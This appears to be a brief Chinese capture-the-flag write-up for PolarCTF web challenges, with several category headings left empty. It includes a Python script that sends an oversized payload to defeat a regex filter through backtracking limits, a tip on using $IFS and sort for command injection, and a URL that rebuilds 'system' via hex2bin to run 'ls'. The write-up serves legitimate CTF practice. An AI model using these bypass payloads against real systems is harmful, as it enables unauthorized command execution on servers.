# web
### swp
递归绕过正则限制
```python
import requests
data = {"xdmtql": "sys nb" + "aaaaa" * 1000000}
res = requests.post('http://d9d00980-d2fc-412e-b6cc-b6db2562eafb.www.polarctf.com:8090/index.php', data=data, allow_redirects=False)
print(res.content)

```

### 简单rce
$IFS空格绕过+sort读取文件

### 上传


### 非常好绕的命令执行

hex2bin转换
`http://1ae67e55-509c-49e4-9bf7-a04be9788ca5.www.polarctf.com:8090/?args1=hex2bin&args2='73797374656d'&args3='ls'`

### 

# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-12-09   23:22